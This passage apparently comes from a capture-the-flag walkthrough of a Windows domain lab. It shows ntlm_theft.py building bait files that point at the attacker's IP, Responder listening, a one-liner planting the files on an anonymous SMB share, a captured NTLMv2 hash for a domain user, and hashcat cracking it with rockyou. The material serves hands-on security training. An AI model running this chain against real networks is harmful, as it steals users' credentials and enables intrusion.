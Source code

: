 After downloading the tool from the repository, we can use it with the below command.

```
└─$ python3 ntlm_theft.py -s (KALI IP) -f daz -g all
Created: daz/daz.scf (BROWSE TO FOLDER)
Created: daz/daz-(url).url (BROWSE TO FOLDER)
Created: daz/daz-(icon).url (BROWSE TO FOLDER)
......
Generation Complete.
```

Now that we have all of these files, we'll need to start up Responder and then place of these files within the share. You can start up responder with `sudo responder -I (VPN INTERFACE NAME).`

I also created a short one-liner that will upload these files to the share, as seen below.

```
└─$ for file in $(ls .); do smbclient -c "cd transfer; put $file" \\\\10.10.100.72\\share -N; done
```

This should upload all of the files to the directory, I adjusted us to upload them within the `transfer` directory as I found immediate luck within that specific folder in the share.

```
[SMB] NTLMv2-SSP Client   : 10.10.100.72
[SMB] NTLMv2-SSP Username : BREACH\Julia.Wong
[SMB] NTLMv2-SSP Hash     : Julia.Wong::BREACH:7a6c9594b3106927:59112474C75D713D82011FAC045A066C:010100000000000000F9EE819EBBDA015CDC76BFA3AFC7C3[...snip...]000009001E0063006900660073002F00310030002E0038002E0030002E003100370033000000000000000000
```

As you can see, we received the NTLMv2 hash for the user `julia.wong`. Now that we have their hash, we can try to crack it using hashcat.

The hash identifier for NetNTLMv2 hashes is 5600. You can find this within the hashcat [example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page.

```
└─$ hashcat -a 0 -m 5600 julia_wong.txt /usr/share/wordlists/rockyou.txt

0f27aeed2fce6717ed091b98a2417efc8960a080416ea342bfd343d4b9ae2f6830a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e0038002e0030002e003100370033000000000000000000:[...snip...]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
```

This should give you the plaintext password for `julia.wong`, meaning we can now utilize their credentials to perform a variety of different actions within this machine. If you log back in to SMB using these credentials, you'll find the first flag for the machine located within `julia.wong`'s directory.

# Dumping LDAP
